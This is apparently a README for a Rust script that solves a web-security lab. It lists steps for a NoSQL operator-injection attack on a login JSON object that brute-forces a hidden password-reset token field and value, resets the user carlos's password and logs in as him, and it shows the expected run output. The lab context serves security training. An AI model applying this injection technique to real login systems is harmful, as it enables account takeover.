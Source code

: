 # Hack Steps

1. Fetch the forgot-password page
2. Extract csrf token and session cookie
3. Make a forgot-password request for carlos
4. Inject an operator and payload into the login JSON object to determine the length of the unknown field name
5. Modify the payload to brute force the field name
6. Modify the payload to determine the length of the field value
7. Modify the payload to brute force the field value
8. Fetch the forgot-password page with the field name and its value as a query pararmeter
9. Extract csrf token and session cookie
10. Make a reset password request for carlos
11. Login as carlos with the new password
12. Fetch the carlos profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
⟪#⟫ Injection point: login JSON object
⦗1⦘ Fetching the forgot-password page.. OK
⦗2⦘ Extracting csrf token and session cookie.. OK
⦗3⦘ Sending a reset password request for carlos.. OK
⦗4⦘ Checking if field number 3 length =  5
⦗4⦘ Checking if field number 3 length =  7
                            ...............
⦗4⦘ Checking if field number 3 length =  13 [ Correct length: 13 ]
⦗5⦘ Checking if the char of field 3 at position 4  =  n [ Correct name: reset ]
⦗5⦘ Checking if the char of field 3 at position 9  =  n [ Correct name: resetPwdTo ]
                            ...............
⦗5⦘ Checking if the char of field 3 at position 12  =  n [ Correct name: resetPwdToken ]
⦗6⦘ Checking if the field resetPwdToken length =  7
⦗6⦘ Checking if the field resetPwdToken length =  10
                            ...............
⦗6⦘ Checking if the field resetPwdToken length =  16 [ Correct length: 16 ]
⦗7⦘ Checking if the char of resetPwdToken at position 6  =  3 [ Correct value: c82305f ]
⦗7⦘ Checking if the char of resetPwdToken at position 10  =  3 [ Correct value: c82305f8cb2 ]
                            ...............
⦗7⦘ Checking if the char of resetPwdToken at position 15  =  3 [ Correct value: c82305f8cb271ed3 ]
⦗8⦘ Fetching the forgot-password page with the field name and its value as a query pararmter.. OK
⦗9⦘ Extracting csrf token and session cookie.. OK
⦗10⦘ Reseting carlos password to hacked.. OK
⦗11⦘ Logging in as the carlos.. OK
⦗12⦘ Fetching the carlos profile.. OK
🗹 Check your browser, it should be marked now as solved
```
